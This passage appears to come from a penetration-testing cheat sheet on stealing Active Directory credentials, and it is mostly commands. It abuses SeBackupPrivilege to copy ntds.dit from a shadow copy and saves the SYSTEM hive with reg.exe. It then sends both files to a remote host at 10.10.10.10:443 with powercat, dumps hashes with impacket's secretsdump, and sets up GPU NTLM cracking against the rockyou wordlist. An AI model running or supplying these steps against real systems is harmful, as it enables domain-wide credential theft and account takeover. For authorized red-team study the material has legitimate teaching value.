 ```
Get-SeBackupPrivilege             Cmdlet    SeBackupPrivilegeCmdLets  ...
Set-SeBackupPrivilege             Cmdlet    SeBackupPrivilegeCmdLets  ...
Copy-FileSeBackupPrivilege        Cmdlet    SeBackupPrivilegeCmdLets  ...

#Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\Windows\temp\ntds.dit -Overwrite

# Dump ACTUAL SYSTEM hive
reg.exe save HKLM\SYSTEM c:\temp\system.hive 

# FILE TRANSFERT
powercat -c 10.10.10.10 -p 443 -i c:\Windows\temp\system.hive
powercat -c 10.10.10.10 -p 443 -i c:\Windows\temp\ntds.dit
```


* * *

### Rebuild AD Hashes

*   \-ntds: location and name of the ntds.dit file
*   \-system: location and name of the SYSTEM hive
*   \-hashes lmnhash:nthash: NTLM hash
*   LOCAL: parse files on the local system
*   \-outputfile: location and name of the output file. Extensions are automatically added based on content extracted

```
# impacket
secretsdump.py -ntds ntds.dit -system SYS -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```


* * *

### Install your NVIDIA Driver for GPU Power

```
apt install -y nvidia-driver nvidia-cuda-toolkit
apt install -y mesa-utils
# CHECK
nvidia-smi
# CHECK
nvidia-smi -i 0 -q
# CHECK
glxinfo | grep -i "direct rendering"
```


* * *

### Cracking

*   \-m 1000: NTLM | Operating Systems
*   ntlm-extract.ntds: secretsdump outfile
*   /usr/share/wordlists/rockyou.txt: plaintext wordlist
*   \-o: location of cracked hash
